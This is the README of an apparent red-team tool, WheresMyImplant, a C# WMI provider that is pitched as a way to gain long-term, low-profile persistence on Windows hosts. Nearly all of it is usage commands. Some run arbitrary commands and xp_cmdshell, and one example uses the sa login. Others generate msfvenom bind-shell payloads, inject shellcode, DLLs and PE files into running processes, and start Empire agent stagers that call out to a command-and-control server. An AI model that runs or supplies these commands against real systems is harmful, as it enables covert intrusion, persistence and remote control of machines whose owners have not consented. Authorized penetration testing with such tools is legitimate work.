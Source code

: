 ### WheresMyImplant: A C# WMI Provider for long term persistance

This WMI provider includes functions to execute commands, payloads, and Empire Agent to maintain a low profile on the host.

### Methods

* #### RunCMD
  * **Parameters:** Command, Parameters
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="ipconfig"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;parameter="/all" <br/>
  };
  
* #### RunPowerShell
  * **Parameters:** Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunPowerShell -Argument @{ <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami" <br/>
  };
  
* #### RunXpCmdShell
  * **Parameters:** Server, Database, UserName, Password, Command
  * **Example:** <br/>
  Invoke-CimMethod -Class Win32_Implant -Name RunXpCmdShell -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;command="whoami"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;database=""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;server="sqlserver" <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;username="sa"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password="password" <br/>
  };
  
* #### InjectShellCode
  * **Parameter:** ShellCodeString, ProcessId
  * ##### Example: <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCode -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;shellCodeString=$payload; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432 <br/>
  };
  
* #### InjectShellCodeWMFIFSB4
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/exec --format csharp CMD=calc.exe <br/>
  Invoke-CimMethod -Class Win32_Implant -Name InjectShellCodeWMFIFSB4 -Argument @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass="WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName="CalcShellCode"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId=432; <br/>
  };
  
* #### InjectDll
  * **Parameters:** Library, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDll -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;library = "\\host\share\bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectDllWMIFS
  * **Parameters:** WmiClass, FileName, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format dll --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectDllWMIFS -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;WmiClass = "WMIFS"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "bind64.dll"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;processId = 3372; <br/>
  };
  
* #### InjectPeFile
  * **Parameters:** FileName, Parameters, ProcessId
  * **Example:** <br/>
  * msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  * Invoke-CimMethod -ClassName Win32_Implant -Name InjectPe -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeString
  * **Parameters:** PeString, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeString -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;ProcessId=5648; <br/>
  };
  
* #### InjectPeWMIFS
  * **Parameters:** WmiClass, FileName, Parameters, ProcessId
  * **Example:** <br/>
  msfvenom -p windows/x64/shell_bind_tcp --format exe --arch x64 > /tmp/bind64.dll <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name InjectPeFromFileRem -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;FileName = "C:\bind64.exe"; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Parameters = ""; ProcessId=5648; <br/>
  };
  
* #### Empire
  * **Parameters:** Server, StagingKey, Language
  * **Example:** <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "PowerShell"; <br/>
  }; 
  <br/>
  Invoke-CimMethod -ClassName Win32_Implant -Name EmpireStager -Arguments @{
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Server = $Server; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$StagingKey = $StagingKey; <br/>
  &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Language = "dotnet"; <br/>
  };


### Author, Contributors, and License

Author: Alexander Leary (@0xbadjuju), NetSPI - 2017

License: BSD 3-Clause

Required Dependencies: None
